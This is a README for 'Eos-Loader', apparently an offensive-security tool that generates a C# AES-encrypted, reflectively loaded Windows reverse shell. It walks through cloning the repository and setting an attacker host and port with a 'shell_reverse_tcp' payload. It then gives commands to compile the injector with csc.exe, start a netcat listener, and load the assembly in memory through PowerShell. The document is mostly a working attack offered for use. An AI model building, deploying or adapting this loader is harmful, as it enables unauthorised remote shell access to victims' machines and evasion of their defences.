

# Eos-Loader
Python loader to write a csharp AES reflectively loaded reverse shell.

## 1. Install
```sh
git clone https://github.com/ZumiYumi/Eos-Loader
```
## 2. Modify Variables
```sh
cd Eos-Loader; nano Eos-Loader.py # based nano user

# Replace and modify below as needed
# LHOST = "10.10.15.170"
# LPORT = 443
# PAYLOAD = "windows/x64/shell_reverse_tcp"
```

## 3. Run Loader and Compile
```sh
python Eos-Loader.py

# EXAMPLE OUTPUT
# [+] Raw shellcode size: 460 bytes.
# [+] C# source written to eos.cs
# [*] Compile as EXE (x64):
#    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /platform:x64 /unsafe /out:Injector.exe eos.cs
# [*] Start listener: nc -lvnp 443
```
You can compile as above instructions, or just by copying eos.cs and pasting it in Visual Studio. Whatever you're comfortable with.

## Demo
```powershell
$bytes = [System.IO.File]::ReadAllBytes("C:\users\zumi\eos.exe")
$assembly = [System.Reflection.Assembly]::Load($bytes)
$assembly.EntryPoint.Invoke($null, $null)
```


